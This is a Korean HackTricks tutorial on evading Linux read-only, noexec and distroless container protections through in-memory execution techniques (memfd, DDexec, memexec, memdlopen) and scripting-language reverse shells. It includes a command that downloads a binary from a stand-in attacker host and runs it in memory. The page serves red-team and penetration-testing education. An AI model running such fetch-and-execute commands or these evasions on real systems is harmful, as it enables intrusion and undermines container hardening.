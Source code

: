 # FS 보호 우회: 읽기 전용 / 실행 금지 / Distroless

{{#include ../../../banners/hacktricks-training.md}}

## 비디오

다음 비디오에서는 이 페이지에 언급된 기술을 더 깊이 설명합니다:

- [**DEF CON 31 - 스텔스 및 회피를 위한 리눅스 메모리 조작 탐색**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**DDexec-ng 및 인메모리 dlopen()을 이용한 스텔스 침투 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## 읽기 전용 / 실행 금지 시나리오

리눅스 머신이 **읽기 전용 (ro) 파일 시스템 보호**로 마운트되는 경우가 점점 더 많아지고 있습니다. 이는 컨테이너에서 **`readOnlyRootFilesystem: true`**를 `securitycontext`에 설정하는 것이 간단하기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되더라도 **`/dev/shm`**는 여전히 쓰기가 가능하므로 디스크에 아무것도 쓸 수 없다는 것은 잘못된 것입니다. 그러나 이 폴더는 **실행 금지 보호**로 마운트되므로 여기에서 바이너리를 다운로드하면 **실행할 수 없습니다**.

> [!WARNING]
> 레드 팀 관점에서 볼 때, 이는 시스템에 이미 없는 바이너리(예: 백도어 또는 `kubectl`과 같은 열거기)를 **다운로드하고 실행하기 어렵게** 만듭니다.

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, **인터프리터가 머신 내에 있는 한** 어떤 스크립트도 **실행할 수 있습니다**. 예를 들어, `sh`가 있는 경우 **셸 스크립트**를 실행하거나 `python`이 설치된 경우 **파이썬 스크립트**를 실행할 수 있습니다.

그러나 이것만으로는 바이너리 백도어나 실행해야 할 다른 바이너리 도구를 실행하기에 충분하지 않습니다.

## 메모리 우회

바이너리를 실행하고 싶지만 파일 시스템이 이를 허용하지 않는 경우, 가장 좋은 방법은 **메모리에서 실행하는 것**입니다. 왜냐하면 **보호가 적용되지 않기 때문입니다**.

### FD + exec 시스템 호출 우회

머신 내에 **Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고, 메모리 파일 설명자(`create_memfd` 시스템 호출)에 저장할 수 있습니다. 이는 이러한 보호에 의해 보호되지 않으며, 그런 다음 **`exec` 시스템 호출**을 호출하여 **실행할 파일로 fd를 지정**합니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 바이너리를 전달하면 **바이너리가 압축되고 b64로 인코딩된** 스크립트를 지정된 언어로 생성하며, **메모리 fd를 생성하는 `create_memfd` 시스템 호출**과 이를 실행하기 위한 **exec** 시스템 호출을 포함한 지침이 포함됩니다.

> [!WARNING]
> 이는 PHP나 Node와 같은 다른 스크립팅 언어에서는 작동하지 않습니다. 왜냐하면 스크립트에서 **원시 시스템 호출을 호출하는 기본 방법이 없기 때문입니다**. 따라서 바이너리를 저장할 **메모리 fd**를 생성하기 위해 `create_memfd`를 호출할 수 없습니다.
>
> 또한, `/dev/shm`에 있는 파일로 **정규 fd**를 생성하는 것은 작동하지 않습니다. 왜냐하면 **실행 금지 보호**가 적용되기 때문에 실행할 수 없기 때문입니다.

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 기술은 **자신의 프로세스 메모리를 수정**하여 **`/proc/self/mem`**을 덮어쓸 수 있게 해줍니다.

따라서 **프로세스에서 실행되는 어셈블리 코드를 제어**함으로써, **셸코드**를 작성하고 프로세스를 "변형"하여 **임의의 코드를 실행**할 수 있습니다.

> [!TIP]
> **DDexec / EverythingExec**를 사용하면 **메모리**에서 자신의 **셸코드** 또는 **어떤 바이너리**를 **로드하고 실행**할 수 있습니다.
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
이 기술에 대한 자세한 정보는 Github를 확인하거나:

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)는 DDexec의 자연스러운 다음 단계입니다. **다른 바이너리**를 **실행**하고 싶을 때마다 DDexec를 다시 시작할 필요 없이, DDexec 기술을 통해 memexec 셸코드를 실행하고 **이 데몬과 통신하여 새 바이너리를 로드하고 실행**할 수 있습니다.

**memexec를 사용하여 PHP 리버스 셸에서 바이너리를 실행하는 방법**에 대한 예시는 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 확인할 수 있습니다.

### Memdlopen

DDexec와 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 바이너리를 로드하는 더 쉬운 방법**을 제공합니다. 이는 의존성이 있는 바이너리도 로드할 수 있게 해줄 수 있습니다.

## Distroless Bypass

### Distroless란 무엇인가

Distroless 컨테이너는 특정 애플리케이션이나 서비스 실행에 필요한 **최소한의 구성 요소**만 포함하고 있으며, 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 더 큰 구성 요소는 제외합니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거하여 컨테이너의 공격 표면을 줄이고** 악용될 수 있는 취약점의 수를 최소화하는 것입니다.

### 리버스 셸

Distroless 컨테이너에서는 **정상적인 셸을 얻기 위해 `sh` 또는 `bash`**를 찾을 수 없을 수도 있습니다. `ls`, `whoami`, `id`와 같은 바이너리도 찾을 수 없습니다... 시스템에서 일반적으로 실행하는 모든 것입니다.

> [!WARNING]
> 따라서, **리버스 셸**을 얻거나 **시스템을 열거**할 수 **없습니다**.

그러나 손상된 컨테이너가 예를 들어 flask 웹을 실행하고 있다면, python이 설치되어 있으므로 **Python 리버스 셸**을 얻을 수 있습니다. 노드를 실행하고 있다면 Node 리버스 셸을 얻을 수 있으며, 대부분의 **스크립팅 언어**와 마찬가지입니다.

> [!TIP]
> 스크립팅 언어를 사용하여 언어의 기능을 활용하여 **시스템을 열거**할 수 있습니다.

**읽기 전용/실행 금지** 보호가 없다면 리버스 셸을 악용하여 **파일 시스템에 바이너리를 작성**하고 **실행**할 수 있습니다.

> [!TIP]
> 그러나 이러한 종류의 컨테이너에서는 이러한 보호가 일반적으로 존재하지만, **이전 메모리 실행 기술을 사용하여 우회할 수 있습니다**.

**RCE 취약점을 악용하여 스크립팅 언어의 리버스 셸을 얻고 메모리에서 바이너리를 실행하는 방법**에 대한 **예시**는 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 확인할 수 있습니다.


{{#include ../../../banners/hacktricks-training.md}}
